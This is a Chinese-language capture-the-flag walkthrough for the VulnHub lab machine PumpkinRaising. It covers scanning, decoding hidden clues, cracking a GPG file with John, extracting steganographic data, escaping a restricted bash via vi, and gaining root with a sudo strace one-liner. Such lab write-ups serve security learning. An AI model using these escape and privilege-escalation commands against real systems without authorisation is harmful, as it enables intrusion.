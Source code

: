 # PumpkinRaising-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkinraising,324/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinRaising is Level 2 of series of 3 machines under Mission-Pumpkin v1.0. The Level 1 ends by accessing PumpkinGarden_Key file, this level is all about identifying 4 pumpkin seeds (4 Flags - Seed ID’s) and gain access to root and capture final Flag.txt file.

**知识点**
- 字符加解密
- 流量分析
- GPG爆破
- rbash逃逸
- 图片隐写

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/1.png)

排除法,去掉自己、宿主机、网关,这里 `192.168.141.129` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.129
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/2.png)

web 和 ssh,先看看 web

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/3.png)

源码中有段 base64,解出来不是关键内容

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/4.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/5.png)

同时有个链接 http://192.168.141.129/pumpkin.html ,查看下里面源码

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/7.png)

里面这段是 base32,我拿64解了半天

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/8.png)

下载这个流量文件,wireshark 分析一下，Ctrl+Alt+Shift+T,切换跟踪 tcp 流

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/9.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/10.png)

其中提到了种子 ID 50609,先记着,之后应该会用的到。

同时 http://192.168.141.129/pumpkin.html 页面最底端还有一串字符

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/14.png)

hex 解一下

```
Yay! Appreciate your patience :)
All things are difficult before they become easy.
Acorn Pumpkin Seeds ID: 96454

Do, remember to inform Jack to plant all 4 seeds in the same order.
```

种子 ID:96454

在 robots 文件中，发现它提供了一些信息,访问 http://192.168.141.129/robots.txt

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/6.png)

下面3个url都有内容
- http://192.168.141.129/underconstruction.html
- http://192.168.141.129/hidden/note.txt
- http://192.168.141.129/seeds/seed.txt.gpg

先看下 note.txt

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/11.png)

看上去像是账号密码,ssh 试了下，都无法登录

说不定可以用来解 seed.txt.gpg,试下
```
wget http://192.168.141.129/seeds/seed.txt.gpg
gpg --decrypt seed.txt.gpg
```

解不了,尝试用 john 跑出来
```bash
gpg2john seed.txt.gpg > hash
john hash
john --wordlist=wordlist.txt hash   # 随便找了字典尝试,没有跑出来
```

搜了下别人的 walkthrough,密钥是 SEEDWATERSUNLIGHT ,是首页下面三个单词的组合...^w^

输入密钥看下内容

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/12.png)

下面部分是莫斯电码

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/13.png)

```
YOU ARE ON THE RIGHT PATH... BIGMAXPUMPKIN SEEDS ID: 69507
```

种子 ID : 69507

访问 http://192.168.141.129/underconstruction.html

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/15.png)

按小标题的意思,可能有内容在图片中,做到图片隐写了

一开始我使用 uc.gif,然后发现其实是 http://192.168.141.129/images/jackolantern.gif

工具地址 : https://stegosuite.org/ ,密码是之前 note.txt 中的 Qn@F5zMg4T

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/16.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/17.png)

种子ID : 86568

到目前为止,有4个种子
```
50609
96454
69507
86568
```

在 note.txt 中有个 `goblin : 79675-06172-65206-17765`

这4个种子应该也可以这么组合,说不定是 SSH 的密码,带 `-` 和不带 `-` 都试试

最后结果是
```
jack: 69507506099645486568
```

连接上去是个 rbash

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/18.png)

使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

# 提权

搜集信息,尝试提权
```
sudo -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/19.png)

参考 strace 提权 https://gtfobins.github.io/gtfobins/strace/
```bash
sudo strace -o /dev/null /bin/sh
```

提权成功

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/20.png)
